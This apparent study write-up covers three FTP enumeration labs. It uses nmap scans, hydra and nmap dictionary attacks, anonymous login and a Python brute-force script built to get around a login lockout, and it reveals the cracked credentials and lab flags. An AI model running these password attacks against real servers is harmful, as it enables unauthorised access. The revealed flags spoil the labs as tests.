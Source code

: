 # 🔬FTP Enum

**`FTP`** (**F**ile **T**ransfer **P**rotocol) - a *client-server* protocol used to transfer files between a network using TCP/UDP connections.

It requires a command channel and a data channel.

Default FTP port is **`21`**, opened when FTP is activated for sharing data.

```bash
sudo nmap -p21 -sV -sC -O <TARGET_IP>
```

## Lab 1

>  🔬 [ProFTP Recon: Basics](https://attackdefense.com/challengedetails?cid=518)
>
>  - Target IP: `192.217.238.3`
>  - Enumeration of [ProFTP](http://www.proftpd.org/) server

```bash
ip -br -c a
	eth1@if170718   UP   192.217.238.2/24
```

- Target IP is `192.217.238.3`

```bash
nmap 192.217.238.3
	21/tcp open  ftp
```

```bash
nmap -p21 -sV -O 192.217.238.3
```

```bash
21/tcp open  ftp     ProFTPD 1.3.5a
[...]
Service Info: OS: Unix
```

![nmap -p21](3-enumerationassets/image-20230215114930223.png)

> 📌 FTP server version is `ProFTPD 1.3.5a`.

### [ftp](https://linux.die.net/man/1/ftp)

- Try `anonymous:anonymous` login

```bash
ftp 192.217.238.3
# anonymous login failed
```

- Use `hydra` with some users/passwords word lists to check if any credentials work with the ftp server 

```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.217.238.3 -t 4 ftp
```

```bash
[DATA] max 16 tasks per 1 server, overall 16 tasks, 7063 login tries (l:7/p:1009), ~442 tries per task
[DATA] attacking ftp://192.217.238.3:21/
[21][ftp] host: 192.217.238.3   login: sysadmin   password: 654321
[21][ftp] host: 192.217.238.3   login: rooty   password: qwerty
[21][ftp] host: 192.217.238.3   login: demo   password: butterfly
[21][ftp] host: 192.217.238.3   login: auditor   password: chocolate
[21][ftp] host: 192.217.238.3   login: anon   password: purple
[21][ftp] host: 192.217.238.3   login: administrator   password: tweety
[21][ftp] host: 192.217.238.3   login: diag   password: tigger
1 of 1 target successfully completed, 7 valid passwords found
```

![hydra user:password attack](3-enumerationassets/image-20230215115946164.png)

> 📌 Found credentials are:
>
> `sysadmin:654321`
> `rooty:qwerty`
> `demo:butterfly`
> `auditor:chocolate`
> `anon:purple`
> `administrator:tweety`
> `diag:tigger`

- Use [nmap ftp-brute script](https://nmap.org/nsedoc/scripts/ftp-brute.html) to find the `sysadmin`'s password

```bash
echo "sysadmin" > users
```

```bash
nmap --script ftp-brute --script-args userdb=/root/users -p21 192.217.238.3
```

```bash
21/tcp open  ftp
| ftp-brute: 
|   Accounts: 
|     sysadmin:654321 - Valid credentials
|_  Statistics: Performed 23 guesses in 6 seconds, average tps: 3.8
```

- Extract the 7 flags hidden on the server by logging in to the `ftp` server with each found user

```bash
ftp 192.217.238.3

ftp> ls
ftp> get secret.txt
ftp> exit

root@attackdefense:~# cat secret.txt 
```

<details>
<summary>Reveal Flag - sysadmin flag is: 🚩</summary>


`260ca9dd8a4577fc00b7bd5810298076`

</details>

<details>
<summary>Reveal Flag - rooty flag is: 🚩</summary>


`e529a9cea4a728eb9c5828b13b22844c`

</details>

<details>
<summary>Reveal Flag - demo flag is: 🚩</summary>


`d6a6bc0db10694a2d90e3a69648f3a03`

</details>

<details>
<summary>Reveal Flag - auditor flag is: 🚩</summary>


`098f6bcd4621d373cade4e832627b4f6`

</details>

<details>
<summary>Reveal Flag - anon flag is: 🚩</summary>


`1bc29b36f623ba82aaf6724fd3b16718`

</details>

<details>
<summary>Reveal Flag - administrator flag is: 🚩</summary>


`21232f297a57a5a743894a0e4a801fc3`

</details>

<details>
<summary>Reveal Flag - diag flag is: 🚩</summary>


`12a032ce9179c32a6c7ab397b9d871fa`

</details>

## Lab 2

>  🔬 [VSFTPD Recon: Basics](https://attackdefense.com/challengedetails?cid=519)
>
>  - Target IP: `192.119.169.3`
>  - Enumeration of [vsftpd](https://security.appspot.com/vsftpd.html) server

```bash
ip -br -c a
	eth1@if170803   UP  192.119.169.2/24
```

- Target IP is `192.119.169.3`

```bash
nmap 192.119.169.3
	21/tcp open  ftp
```

```bash
nmap -p21 -sV -O 192.119.169.3
```

```bash
21/tcp open  ftp     vsftpd 3.0.3
```

![](3-enumerationassets/image-20230215130759212.png)

> 📌 FTP server version `vsftpd 3.0.3`

- Use [nmap ftp-anon script](https://nmap.org/nsedoc/scripts/ftp-anon.html) to check `anonymous` user login

```bash
nmap --script ftp-anon -p21 192.119.169.3
```

```bash
21/tcp open  ftp
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp            33 Dec 18  2018 flag
|_drwxr-xr-x    2 ftp      ftp          4096 Dec 18  2018 pub
```

> 📌 Anonymous FTP login allowed

```bash
ftp 192.119.169.3
# Use anonymous:anonymous to login
```

```bash
Name (192.119.169.3:root): anonymous
    331 Please specify the password.
Password:
    230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.

ftp> ls
ftp> get flag
ftp> exit

root@attackdefense:~# cat flag 
```

<details>
<summary>Reveal Flag: 🚩</summary>


`4267bdfbff77d7c2635e4572519a8b9c`

</details>

------

## Lab 3

>  🔬 [VSFTPD Recon: Dictionary Attack](https://attackdefense.com/challengedetails?cid=520)
>
>  - Target IP: `192.14.30.3`
>  - Dicotionary attack on `vsftpd` server
>  - *FTP server terminates the session after 3 attemps*

```bash
ip -br -c a
	eth1@if170888   UP   192.14.30.2/24 
```

- Target IP is `192.14.30.3`

```bash
nmap 192.14.30.3
	21/tcp open  ftp
```

```bash
nmap -p21 -sV -O 192.14.30.3
```

```bash
21/tcp open  ftp     vsftpd 3.0.3
```

```bash
echo "billy" > users

nmap --script ftp-brute --script-args userdb=/root/users -p21 192.14.30.3
```

```bash
21/tcp open  ftp
| ftp-brute: 
|   Accounts: 
|     billy:carlos - Valid credentials
|_  Statistics: Performed 78 guesses in 55 seconds, average tps: 1.5
```

> 📌 *billy*'s password is `carlos`

- A custom script to attemp the logins is required if automated dictionary attack do not work, since the server terminates the sessions after 3 login attempts.
- `e.g.` python script:

```bash
nano billy.py
```

```python
import pexpect
import sys
username=sys.argv[2]
password_dict=sys.argv[3]

# Loading the password dictionary and Striping \n
lines = [line.rstrip('\n') for line in open(password_dict)]

itr = 0
# Iterating over dictionary
for password in lines:
	child = pexpect.spawn ('ftp '+sys.argv[1])
	child.expect ('Name .*: ')
	child.sendline (username)
    print "Trying with password: ",password
	child.expect ('Password:')
	child.sendline (password)
	i = child.expect (['Login successful', 'Login failed'])
	if i==1:
		#print('Login failed')
		child.kill(0)
	elif i==0:
		print "Login Successful for ",password
		print child.before
		break
```

```bash
python billy.py 192.14.30.3 billy /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
```

```bash
Login Successful for  carlos
```

- Fetch the flag using `billy:carlos` credentials

```bash
ftp 192.14.30.3

ftp> ls
ftp> get flag
ftp> exit

root@attackdefense:~# cat flag
```

<details>
<summary>Reveal Flag: 🚩</summary>


`c07c7a9be16f43bb473ed7b604295c0b`

</details>

------

